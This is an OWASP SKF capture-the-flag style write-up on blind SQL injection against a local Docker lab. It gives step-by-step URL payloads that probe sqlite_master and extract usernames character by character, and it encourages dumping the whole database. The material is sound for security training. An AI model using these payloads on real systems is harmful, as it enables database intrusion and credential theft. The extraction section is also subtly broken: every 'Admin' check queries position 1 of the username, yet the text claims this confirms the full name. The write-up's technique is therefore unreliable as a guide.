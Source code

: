# KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sql-injection-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sql-injection-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ING_Primary_Logo.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile  we can't see this as the application shows a 404 Error page. 

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.  

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false\ (and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://localhost:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists. 

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```textile
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table *users* exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png) 

### Step 4

From the *user* table is possible to see that the table contains the columns *UserId* , *UserName* and *Password*

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter *a*.

![](.gitbook/assets/sqli-blind-11.png)

```textile
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter *A*. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, *Admin* could be a possible user. So, let's test this theory:

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='d' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='m' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='i' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned *404 Error*, so this indicates *Admin* is a valid value.

Now that you know the logic, you can extract  all UserNames stored within this table. 

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

https://www.techonthenet.com/sqlite/sys_tables/index.php

